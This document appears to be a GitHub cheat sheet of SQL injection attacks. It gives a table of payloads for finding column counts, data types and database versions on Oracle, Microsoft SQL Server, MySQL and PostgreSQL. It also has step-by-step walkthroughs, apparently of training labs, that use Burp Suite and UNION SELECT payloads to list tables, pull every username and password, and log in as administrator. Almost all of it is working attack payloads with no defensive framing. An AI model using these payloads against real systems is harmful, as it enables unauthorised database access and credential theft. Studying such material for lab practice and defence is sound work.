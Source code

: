 <h2>SQL Injection(SQLi) ATTACK </h2>

<b>SQL Attack queries to determine the number of COLUMNS, DATATYPES of the columns and VERSION on Oracle, Microsoft, MySQL and PostgreSQL</b>

| Database | Columns Query | Datatypes | Version |
|----------|---------------|-----------|---------|
| Oracle |  ‘ ORDER BY 1-- </br> ‘ ORDER BY 3-- </br> In this example: 3 - 1 = 2(no. of columns) | ‘ UNION SELECT ‘a’ , ‘a’ FROM DUAL-- | ‘ UNION SELECT banner, NULL FROM v$version-- </br> SELECT banner FROM v$version |  
| Microsoft | same as Oracle | ‘ UNION SELECT ‘a’ , ‘a’-- | SELECT @@version | 
| MySQL | ‘ ORDER BY 1# | ‘ UNION SELECT ‘a’ , ‘a’# | SELECT @@version </br> ‘ UNION SELECT @@version, ‘a’#|
| PostgreSQL | same as Oracle | ‘ UNION SELECT ‘a’ , ‘a’-- | SELECT version() |

<b>SQLi Attack, listing the database contents on Oracle</b>
</br>
1. Use [Burp Suite](https://portswigger.net/burp/communitydownload) to intercept and modify the request that sets the product category filter.
2. Determine the number of columns that are being returned by the query and which columns contain text data. Verify that the query is returning two columns, both of which contain text, using a payload like the following in the category parameter:  '+UNION+SELECT+'abc','def'+FROM+dual--
3. Use the following payload to retrieve the list of tables in the database:  '+UNION+SELECT+table_name,NULL+FROM+all_tables--
4. Find the name of the table containing user credentials.
5. Use the following payload (replacing the table name) to retrieve the details of the columns in the table:  '+UNION+SELECT+column_name,NULL+FROM+all_tab_columns+WHERE+table_name='USERS_ABCDEF'--
6. Find the names of the columns containing usernames and passwords.
7. Use the following payload (replacing the table and column names) to retrieve the usernames and passwords for all users:  '+UNION+SELECT+USERNAME_ABCDEF,+PASSWORD_ABCDEF+FROM+USERS_ABCDEF--
8. Find the password for the administrator user, and use it to log in.
</br>

<b>SQLi UNION attack, finding a column containing text</b>
</br>
1. Use Burp Suite to intercept and modify the request that sets the product category filter. </br>
2. Determine the number of columns that are being returned by the query. Verify that the query is returning three columns, using the following payload in the category parameter:  '+UNION+SELECT+NULL,NULL,NULL-- </br>
3. Try replacing each null with the random value, for example:  '+UNION+SELECT+'abcdef',NULL,NULL-- </br>
4. If an error occurs, move on to the next null and try that instead.
</br>
